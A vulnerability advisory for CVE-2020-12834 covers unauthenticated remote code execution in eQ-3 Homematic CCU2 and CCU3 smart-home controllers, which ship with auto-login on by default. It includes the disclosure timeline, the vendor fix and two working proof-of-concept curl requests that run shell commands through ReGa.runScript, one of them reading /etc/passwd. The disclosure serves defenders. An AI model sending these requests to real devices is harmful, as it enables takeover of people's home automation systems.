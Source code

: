 ```yaml
---
layout: post
title:  "CVE-2020-12834 eQ-3 Homematic CCU2 through 2.51.6 and CCU3 through 3.51.6 allow Remote Code Execution in JSON API Method ReGa.runScript by unauthenticated attackers with access to the web interface due to default auto-login feature enabled during first-time setup (or factory reset)"
date:   2020-08-18 23:55:00 MEST
author: 'psytester'
---
```



# Overview

- CVE: CVE-2020-12834
- Author: psytester
- Title: eQ-3 Homematic CCU2 through 2.51.6 and CCU3 through 3.51.6 allow Remote Code Execution in JSON API Method ReGa.runScript by unauthenticated attackers with access to the web interface due to default auto-login feature enabled during first-time setup (or factory reset)
- Vulnerability Type: CWE-285: Improper Authorization
-	CVSSv3 Base Score: 8.3
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:H/PR:N/UI:R/S:C/C:H/I:H/A:H
- Publishing Date: 14.05.2020
- Updated: 18.08.2020
- Vendor: eQ-3 AG	
- Product: Homematic CCU2 and CCU3
- Vendor contacted: 12.05.2020
- Vendor confirmation: 15.05.2020
- Vendor patch CCU2: N.A.
- Vendor patch CCU3: 3.53.26 since 18.08.2020
- Vendor Reference: [HMCCU-604] in changelog of CCU3 "Das Auto-Login ist nach der Erstinbetriebnahme der CCU deaktiviert."
- Affected Firmware version of CCU2: 2.51.6 and prior tested
- Affected Firmware version of CCU3: 3.51.6 and prior tested

# Background

From [vendor's website for CCU2](https://www.eq-3.com/products/homematic/detail/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

In the past, the vendor has never reacted or just very slow to any security report of me. That's why I publish this vulnerability after reporting to vendor without any waiting period.

# Issue Description

During the first time setup or after factory reset a password for WebUI user 'Admin' has to be set, but an auto-login function is set by default.<br>
According to the support this is to facilitate the initial setup.<br>
Switching off this auto-login is not well intuitive. Go to WebUI Home page > Settings > User management page. Click on below button "Log in automatically" next to buttons "Back" and "New".<br>
In "User selection" select from drop down menu "not selected" and finally click "OK".<br>
How many users are aware of this?

And only here you can see the the security alert:
```
Attention!
If automatic login is activated you will be logged-in to the system without entering your user name or password.
The selected user will be logged-in automatically without further validation. The system is no longer protected against external influences.
You can access other user accounts with click on "Login". Afterwards, please login with the user name and password again.
```

This attack vector is inspired by [CVE-2019-15850](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15850), where a manual login of the admin is required to use the JSON API method ReGa.runScript.<br>
Inside the runScript the undocumented `system.Exec()` call is used which executes plain unix commands.<br>
As a CCU is an ARM System using a Buildroot Busybox system all linux commands you may want to use are possible and you can code a complete shell script.

The following HTTP requests in Web Browser illustrates the attack vectors:

Open the WebUI to be auto-login `http://1.2.3.4/` will redirect to `http://1.2.3.4/pages/index.htm?sid=@7eY56glHVz@`<br>
Extract the session id `7eY56glHVz` for further usage in JSON API call as "_session_id_" value:

```
curl -X POST -H 'Content-Type: application/json; charset=utf-8' -i 'http://1.2.3.4/api/homematic.cgi' --data '{"version": "1.1", "method": "ReGa.runScript", "params": {"script": "string stdout;string stderr;system.Exec(\"sleep 4;cat /etc/passwd\", &stdout, &stderr);WriteLine(stdout);", "_session_id_": "7eY56glHVz"}}'
curl -X POST -H 'Content-Type: application/json; charset=utf-8' -i 'http://1.2.3.4/api/homematic.cgi' --data '{"version": "1.1", "method": "ReGa.runScript", "params": {"script": "string stdout;string stderr;system.Exec(\"/bin/touch /tmp/testfile\", &stdout, &stderr);WriteLine(stdout);", "_session_id_": "7eY56glHVz"}}'
```

# CVE

[CVE-2020-12834](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-12834)

# CVSSv3 Base Score

CVSSv3 Base Score: 8.3

CVSSv3 Vector: CVSS:3.0/AV:N/AC:H/PR:N/UI:R/S:C/C:H/I:H/A:H

# Firmware update since August 2020
On CCU3:
During the first time setup or after factory reset a password for WebUI user 'Admin' has to be set AND by now the auto-login function is switched off by default.<br>
Notice: Existing systems that only apply the update will still have the auto-login active, if this was not removed before.

/www/rega/pages/tabs/admin/adminFirstStart.htm
```
iseUser.setAutoLogin(0, 0);
```

On CCU2:
not yet released

# Credit

[psytester](https://psytester.github.io), but I was inspired by [Joshua Lehr CVE-2019-15850](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15850)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2020 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
